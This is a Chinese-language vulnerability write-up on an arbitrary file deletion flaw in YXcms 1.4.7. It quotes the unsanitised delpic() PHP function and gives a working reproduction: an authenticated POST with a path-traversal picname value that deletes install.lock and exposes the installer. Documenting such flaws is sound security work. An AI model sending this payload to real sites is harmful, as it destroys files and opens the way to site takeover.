


YXcms 1.4.7 任意文件删除
========================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到\$picname接收POST过来的值，然后\$path等于文件开头定义的静态变量
static protected \$uploadpath=\'\';//图片上传路径
没有对传入的值进行任何的过滤，使用函数file\_exists()判断一下文件是否存在就给unlink执行删除文件了。

    public function delpic()
    {
        if(empty($_POST['picname'])) $this->error('参数错误~');
        $picname=$_POST['picname'];
        $path=$this->uploadpath;
        if(file_exists($path.$picname))
          @unlink($path.$picname);
        else{echo '图片不存在~';return;} 
        if(file_exists($path.'thumb_'.$picname))
           @unlink($path.'thumb_'.$picname);
        else {echo '缩略图不存在~';return;}
        echo '原图以及缩略图删除成功~';
    }

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

    http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic

POST：

    picname=../../protected/apps/install/install.lock

然后访问网站首页就会自动转到安装的页面

看到目录下的install.lock文件已经被删除了

